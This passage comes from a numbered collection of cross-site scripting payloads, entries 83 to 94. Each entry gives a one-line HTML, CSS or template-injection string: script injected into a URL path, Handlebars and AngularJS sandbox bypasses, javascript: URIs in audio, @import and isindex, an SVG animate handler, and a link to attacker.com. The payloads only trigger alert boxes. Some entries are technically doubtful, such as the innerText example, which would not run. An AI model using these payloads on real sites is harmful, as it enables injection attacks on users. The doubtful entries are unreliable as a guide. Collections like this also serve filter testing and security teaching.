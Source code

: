 **83. Injection via Path Traversal in URLs**
```html
http://example.com/%3Cscript%3Ealert(1)%3C/script%3E
```

**84. Template Injection in Handlebars.js**
```html
{{#with "constructor"}}{{this.alert "XSS"}}{{/with}}
```

**85. Injection Using AngularJS ng-csp Bypass**
```html
{{constructor.constructor('alert(1)')()}}
```

**86. Abuse of Event Listeners to Inject JavaScript**
```html
<button id="btn">Click Me</button><script>document.getElementById('btn').addEventListener('click', function() { alert(1); });</script>
```

**87. HTML Audio with Malformed Tag**
```html
<audio src="javascript:alert(1)">Sound</audio>
```

**88. CSS Import URL with JavaScript URI**
```css
@import url('javascript:alert(1)');
```

**89. Exploiting InnerHTML Assignment in JavaScript**
```html
<script>document.body.innerHTML = '<img src=x onerror=alert(1)>';</script>
```

**90. SVG Animation Injection**
```html
<svg><animate onbegin="alert(1)"></animate></svg>
```

**91. Exploiting HTML `<isindex>` Element**
```html
<isindex action="javascript:alert('XSS')">
```

**92. HTML `<listing>` Tag Abuse**
```html
<listing oncopy=alert(1)>Hello</listing>
```

**93. Targeting Cross-Origin Redirects with XSS Payloads**
```html
<a href="//attacker.com/"><img src="javascript:alert(1)"></a>
```

**94. Abuse of `innerText` JavaScript Property**
```html
<script>document.querySelector('body').innerText += '<img src=x onerror=alert(1)>';</script>
```

